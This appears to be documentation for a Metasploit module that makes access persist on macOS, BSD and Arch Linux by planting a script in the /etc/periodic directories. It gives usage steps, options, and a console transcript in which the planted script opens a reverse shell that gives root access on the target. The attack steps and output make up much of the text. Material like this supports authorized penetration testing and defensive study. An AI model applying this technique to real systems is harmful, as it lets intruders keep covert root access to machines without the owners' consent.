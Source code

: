 ## Description

This module provides a persistence mechanism on OSX, BSD and Arch Linux 
using periodic scripts. The modules will write a script to `/etc/periodic
/daily/`, `/etc/periodic/weekly/` or `/etc/periodic/monthly/`. This 
script will then execute a payload which is written by default to `/tmp/`.

## Verification Steps

1. Obtain a session with super user privilleges, only the root 
user has write permissions to `/etc/periodic/`
2. Do: `use exploit/multi/local/periodic_script_persistence`
3. Do: `set session #`
4. Do: `set target #`
5. Do: `set payload #`
6. Do: `set verbose true`
7. Do: `expoit`

## Options

### PERIODIC_DIR

Periodic Directory to write script eg. /etc/periodic/daily

### PERIODIC_SCRIPT_NAME

Name of periodic script



## Scenarios
```
msf6 exploit(multi/local/periodic_script_persistence) > set session 1
session => 1
msf6 exploit(multi/local/periodic_script_persistence) > run verbose=true 

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. /etc/periodic/daily/ is writable
[*] Writing '/etc/periodic/daily/jX3dG9' (118 bytes) ...
[*] Succesfully wrote periodic script to /etc/periodic/daily/jX3dG9.
[*] Cleanup command 'sudo rm/etc/periodic/daily/jX3dG9'
msf6 exploit(multi/local/periodic_script_persistence) > handler -p cmd/unix/reverse_zsh -P 4444 -H ens39
[*] Payload handler running as background job 4.

msf6 exploit(multi/local/periodic_script_persistence) > [*] Started reverse TCP handler on 192.168.168.219:4444 
[*] Command shell session 6 opened (192.168.168.219:4444 -> 192.168.168.175:49190) at 2025-08-29 17:49:54 +0200
msf6 exploit(multi/local/periodic_script_persistence) > sessions

Active sessions
===============

  Id  Name  Type                 Information           Connection
  --  ----  ----                 -----------           ----------
  1         meterpreter x64/osx  root @ mss-Mac.local  192.168.168.219:4242 -> 192.168.168.175:49165 (192.168.168.175)
  6         shell cmd/unix                             192.168.168.219:4444 -> 192.168.168.175:49190 (192.168.168.175)

msf6 exploit(multi/local/periodic_script_persistence) > sessions 6
[*] Starting interaction with 6...

id
uid=0(root) gid=0(wheel) groups=0(wheel),1(daemon),2(kmem),3(sys),4(tty),5(operator),8(procview),9(procmod),12(everyone),20(staff),29(certusers),61(localaccounts),80(admin),701(com.apple.sharepoint.group.1),33(_appstore),98(_lpadmin),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh),400(com.apple.access_remote_ae)
```
